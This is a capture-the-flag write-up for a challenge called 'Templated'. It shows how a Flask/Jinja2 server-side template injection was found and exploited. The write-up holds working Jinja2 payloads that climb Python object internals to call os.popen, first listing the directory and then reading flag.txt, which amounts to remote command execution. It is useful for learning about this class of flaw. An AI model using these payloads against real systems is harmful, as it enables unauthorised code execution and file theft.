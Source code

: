 # Templated
![Screenshot from 2021-08-04 16-05-21](https://user-images.githubusercontent.com/87865134/128154165-59273d02-11ef-4eeb-b8b6-7dc8b90a0436.png)

> web use Flask/Jinja2

## - Test Server-side template injection
  `/{{7*7}}`  
 ![Screenshot from 2021-08-04 16-07-33](https://user-images.githubusercontent.com/87865134/128154512-c6e25556-d0fd-43fd-bc2f-7de838220637.png)
  
 > found template injection

## - Exploit
### 1. List all objects
```python
/{{().__class__.__bases__[0].__subclasses__()}}
```
![Screenshot from 2021-08-04 16-09-44](https://user-images.githubusercontent.com/87865134/128154925-b4f456e1-da1f-4b3a-989c-5a11c5fc0640.png)

### 2. List files in current directory
```python
/{{().__class__.__bases__[0].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}
```
> found flag.txt

### 3. Read file ***flag.txt*** to get flag
```python
/{{().__class__.__bases__[0].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}}}
```
![Screenshot from 2021-08-04 16-16-48](https://user-images.githubusercontent.com/87865134/128155852-b8bfca9c-55f7-4e2a-a4db-8b79a7012a1f.png)

## - Description
> **category:** Server-side Template Injection
